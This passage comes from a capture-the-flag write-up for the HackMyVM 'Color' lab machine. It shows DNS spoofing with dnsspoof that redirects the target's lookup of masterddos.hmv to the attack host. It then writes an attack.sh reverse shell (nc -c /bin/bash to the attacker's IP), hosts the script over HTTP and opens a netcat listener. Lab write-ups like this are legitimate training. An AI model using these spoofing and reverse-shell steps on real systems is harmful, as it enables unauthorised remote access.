 Now that the target will make a DNS query to us for all domains not present in its /etc/hosts file we need to create a fake DNS server to respond to those requests. The tool dnsspoof forges replies to DNS address queries with the help of a hosts file thereby acting like a mini DNS server. We will first create an entry in our custom hosts file. This entry should resolve the domain name masterddos.hmv to our server's IP address. This will allow that when the target makes a DNS query to our attack host, the tool will respond with our attack host's IP address.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ cat hosts 
10.0.2.16       masterddos.hmv

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ sudo dnsspoof -i eth0  -f hosts
dnsspoof: listening on eth0 [udp dst port 53 and not src 10.0.2.16]
```

We can see that dnsspoof listens on port 53 the default port for DNS. After everything is set, we can verify that it works by attempting a DNS lookup for the domain we want to spoof.
```bash
purple@color:~$ traceroute masterddos.hmv
traceroute to masterddos.hmv (10.0.2.16), 30 hops max, 60 byte packets
 1  masterddos.hmv (10.0.2.16)  1.309 ms  1.223 ms  1.321 ms
purple@color:~$ 
```

```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ sudo dnsspoof -i eth0  -f hosts
dnsspoof: listening on eth0 [udp dst port 53 and not src 10.0.2.16]
10.0.2.28.60494 > 10.0.2.1.53:  56544+ A? masterddos.hmv
10.0.2.28.60494 > 10.0.2.1.53:  56544+ A? masterddos.hmv
10.0.2.28.45957 > 10.0.2.1.53:  56544+ A? masterddos.hmv
10.0.2.28.39381 > 10.0.2.1.53:  47346+ PTR? 16.2.0.10.in-addr.arpa
```

We can see that our setup works perfectly and our IP address is returned as the IP address of the domain masterddos.hmv. We can now create a file named exactly as the one in the script i.e. attack.sh with a reverse shell in it and start a web server on port 80 to host the file.
```
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ cat attack.sh  
#!/bin/bash

nc -c /bin/bash 10.0.2.16 9999

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Finally, we can start a listener on our attack host and run the script on the target using Purple's sudo rights.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
```
